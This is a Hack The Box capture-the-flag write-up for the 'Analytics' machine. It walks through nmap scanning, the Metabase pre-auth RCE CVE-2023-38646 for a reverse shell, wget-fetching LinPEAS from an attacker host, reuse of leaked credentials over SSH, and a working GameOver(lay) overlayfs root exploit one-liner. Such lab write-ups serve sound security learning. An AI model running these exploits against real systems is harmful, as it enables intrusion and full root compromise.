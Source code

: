 ```yaml
---
title: Analytics - HTB Writeup
date: 2024-03-22 10:03
categories: [ctf, linux, easy]
tags: [htb, linux, ctf, easy, analytics]    # TAG names should be lowercase
---
```



# Machine Overview

**Analytics** was an easy-rated Linux machine, involving the exploitation of **CVE-2023-38646** for initial access and **CVE-2023-32629** for Privilege Escalation.

<img  alt="Pasted image 20240322120647" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/adce0329-b6e1-49bc-acd6-68eb1d6e2275">

# User
## Scanning with nmap
  
First of all, we will go with Nmap to scan the whole network and check for services running on the network. To scan the entire network and find all the open ports, I use **-p-** to scan all **65535** ports with **--min-rate 10000** to scan the network faster using **nmap**. After scanning, I retrieve a list of open ports on the network and extract only the open ports using various terminal tools like **cut**, **tr**, etc.

```bash
$ nmap -p- -Pn --min-rate 10000 10.10.11.233 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
# Open ports
22,80
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p22,80 -sC -sV -A -T4 -Pn 10.10.11.233 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file
- **-Pn** to Treat all hosts as online

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Information Gathering

Through Nmap, we discovered only two ports are open. On Port **22**, SSH version **8.9p1** is running on an Ubuntu system, and on port **80**, HTTP **Nginx 1.18.0** is running. Both versions of SSH and Nginx are not vulnerable, so I decided to directly visit the webpage. Let's add `analytical.htb` in our DNS file.

```bash
$ echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```

### 80 HTTP

The webpage is running the Data Analysis website, which deals in Data processing and helping customers to find recent trends and products, with different pages linked on the **navbar**.

<img  alt="Pasted image 20240321191106" src="https://github.com/iammR0OT/myaseen/assets/74102381/960bbbd9-408c-466d-a138-fccbb00742aa">

The Login button on navbar is retdirecting us to subdomain called `data.analytical.htb`. 

<img  alt="Pasted image 20240321191211" src="https://github.com/iammR0OT/myaseen/assets/74102381/38cb8468-eece-4e17-a3e9-e93bc94ee304">

Let's Add this to our local DNS file, so that we can resolve it.

```bash
$ cat /etc/hosts | grep analytical
10.10.11.233   analytical.htb data.analytical.htb
```

#### Initial Access

On `data.analytical.htb`, Metabase is running.
Metabase is **an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources**. You don't need to know SQL to create visualizations, but Metabase supports SQL for advanced customization.

<img  alt="Pasted image 20240321191714" src="https://github.com/iammR0OT/myaseen/assets/74102381/9175639c-936b-43f5-adef-4cf495ac45bf">

With a Quick google Search i was able to find a RCE exploit of metabase [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<img  alt="Pasted image 20240321191841" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/07497b78-0735-4057-b5a6-e922a9c0ca36">

To make this Exploit work, we needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key. 

<img  alt="Pasted image 20240321192204" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/916047a0-2bd7-49ad-8567-d1572a4a2eac">

Now we have all necessary things for exploit to work. Let's Exploit it...
- URL: `http://data.analytical.htb/`
- Setup-Token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
- Command: rev-shell

<img  alt="Pasted image 20240322105945" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/76f340f4-d143-49a2-ab81-62d1da352916">

We got a shell within no time. Let's run Linpease to check if we able to find any useful things to elevate our privileges.
**LinPEAS** is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
i'll be using python server to transfer linpease from my attacker machine to victime machine, for this you first need to start a python server on your local machine in a directory where linpeas is present.

```bash
$ python3 -m http.server 80
```

After that, use **wget** to transfer it to victim machine and using chmod, give it executable permissions.

```bash
$ wget <IP>/linpeas.sh
$ chmod +x linpeas.sh
```

<img  alt="Pasted image 20240322113146" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4ef40d6e-2830-4cc7-bf34-dc2f66d2605d">

After running Linpeas, in Environments section, we were able to retrieve the password of a new user called **metalytics** 
- metalytics
- An4lytics_ds20223#

<img  alt="Pasted image 20240322114718" src="https://github.com/iammR0OT/myaseen/assets/74102381/357decf1-6a38-4d4d-a489-2e4e75c08e8e">

Let's SSH to machine using these Credentials and retrieve our user flag.

```bash
$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@10.10.11.233
```

<img  alt="Pasted image 20240322114914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3278a655-71af-497f-b4db-7b9d1f918147">

# Privilege Escalation

Let's move toward privilege Escalation part. The very first thing i usually do is to check the kernel version running on machine, because if the version is outdated, then it will be low hanging fruit for us to gain root access on machine.
To check the kernel version, we can use multiple commands like

```bash
$ uname -a
$ cat /proc/version
$ lscpu
```

Linux **Kernel 6.2.0** is running on machine

<img  alt="Pasted image 20240322115359" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/14ed00e2-57f1-4247-924c-9a9c0613d82d">

With a quick google search i was able to find kernel exploit for privilege Escalation, [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) called **GameOver(lay)** Ubuntu Privilege Escalation
Local privilege escalation vulnerability in Ubuntu Kernels overlayfs **ovl_copy_up_meta_inode_data** skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.


<img  alt="Pasted image 20240322115605" src="https://github.com/iammR0OT/myaseen/assets/74102381/4bd8a86f-6ca2-446b-8230-ee9eb244bfaa">

The payload will be.

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<img  alt="Pasted image 20240322120025" src="https://github.com/iammR0OT/myaseen/assets/74102381/bd0465d5-fb48-46c6-9dd9-ffd2be2be58b">


# Flags

User: edd9e7f9b0b992....7958419d05ccb 

Root: b9b4c98f4512a4....c0fad7fd933a6b

# Happy Hacking ❤
